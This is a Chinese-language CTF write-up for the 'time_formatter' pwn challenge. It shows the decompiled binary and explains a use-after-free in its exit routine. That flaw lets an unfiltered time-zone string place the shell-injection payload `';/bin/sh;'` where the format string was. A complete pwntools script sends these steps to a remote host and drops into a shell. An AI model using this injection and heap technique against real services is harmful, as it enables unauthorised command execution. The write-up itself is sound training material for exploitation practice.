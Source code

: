 ### 1.攻防世界 time_formatter
```C
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  __gid_t v3; // eax
  FILE *v4; // rdi
  __int64 v5; // rdx
  int v6; // eax

  v3 = getegid();
  setresgid(v3, v3, v3);
  setbuf(stdout, 0LL);
  puts("Welcome to Mary's Unix Time Formatter!");
  do
  {
    while ( 2 )
    {
      puts("1) Set a time format.");
      puts("2) Set a time.");
      puts("3) Set a time zone.");
      puts("4) Print your time.");
      puts("5) Exit.");
      __printf_chk(1LL, (__int64)"> ");
      v4 = stdout;
      fflush(stdout);
      switch ( get_choice_num() )
      {
        case 1:
          v6 = set_format();
          break;
        case 2:
          v6 = set_time();
          break;
        case 3:
          v6 = set_time_zone();
          break;
        case 4:
          v6 = print_time((__int64)v4, (__int64)"> ", v5);
          break;
        case 5:
          v6 = exit();
          break;
        default:
          continue;
      }
      break;
    }
  }
  while ( !v6 );
  return 0LL;
}
```
在case4这个函数调用中看到了这个东西。
![time_formatter1](./pic/gfsj/time_formatter1.png)
试试这个shell注入`';/bin/sh;'`
![time_formatter2](./pic/gfsj/time_formatter2.png)
可以得到shell 。
想办法将这个字符串注入到ptr中，问题是这个set_format这个函数中存在过滤，不让使用单引号和分号。
![time_formatter3](./pic/gfsj/time_formatter3.png)
不过好在还有一个set_time_zone函数不存在过滤，并且发现在exit函数中存在`UAF`漏洞。先free再判断是否退出。
![time_formatter4](./pic/gfsj/time_formatter4.png)
那么思路就很明确了，先创建一个chunk，再free掉，再用set_time_zone把这个chunk取出来并且写入`';/bin/sh;'`，这个时候value和ptr指针都是指向这个chunk的，再调用print_time函数拿到shell。
```python
#coding=utf-8
from pwn import *


io = remote('111.198.29.45', 58222)


context.log_level = "debug"

io.recvuntil("> ")
io.sendline("1")
io.recvuntil("Format: ")
io.sendline("a")
io.recvuntil("> ")
io.sendline("5")
io.recvuntil("Are you sure you want to exit (y/N)? ")
io.sendline('s') # 不是y都行
io.recvuntil("> ")
io.sendline("3")
io.recvuntil("Time zone: ")
io.sendline("';/bin/sh;'")
io.recvuntil("> ")
io.sendline('4')
io.interactive()
```
